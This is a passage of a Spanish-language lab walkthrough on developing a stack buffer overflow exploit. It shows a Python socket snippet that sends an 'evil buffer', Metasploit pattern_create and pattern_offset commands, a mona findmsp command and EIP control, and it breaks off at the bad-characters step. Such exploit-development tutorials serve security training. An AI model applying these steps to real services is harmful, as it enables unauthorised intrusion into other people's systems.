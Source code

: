 ```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Y ahora en nuestra terminal vamos a ejecutar un módulo de metasploit llamado pattern_create.rb donde insertaremos los 1000 bytes:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```
![[Pasted image 20231201100104.png]]

Y ahora esta data la vamos a pegar dentro de la variable Payload del script de python mostrado anteriormente:
![[Pasted image 20231201100147.png]]

Ahora nos dirigimos al Immunity Debugger y ejecutamos el siguiente comando de mona, ponemos 600 porque es donde el programa crashea:
```python
!mona findmsp -distance 600
```

Ejecutamos este exploit:
![[Pasted image 20231201100459.png]]

Y en el inmunnity debugger nos debería de salir otro número en el EIP:
![[Pasted image 20231201101012.png]]

Una vez obtenido este número de EIP, ya podemos obtener el offset ejecutando este comando:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 72413172
```
![[Pasted image 20231201101101.png]]

Lo añadimos a nuestro exploit, además de añadir BBBB en la variable retn:
![[Pasted image 20231201101201.png]]

Lanzamos nuevamente el exploit:
![[Pasted image 20231201101444.png]]

Y deberíamos de tener este resultado en el EIP:
![[Pasted image 20231201101501.png]]

## BAD CHARS
El siguiente paso será obtener los bad chars, lo cual consiste en que para ciertos servicios existen algunos caracteres que no se aceptan, provocando una ejecución errónea cuando generamos la shellcode. Estos caracteres se denomina bad character y debemos de eliminarlos de nuestro exploit.
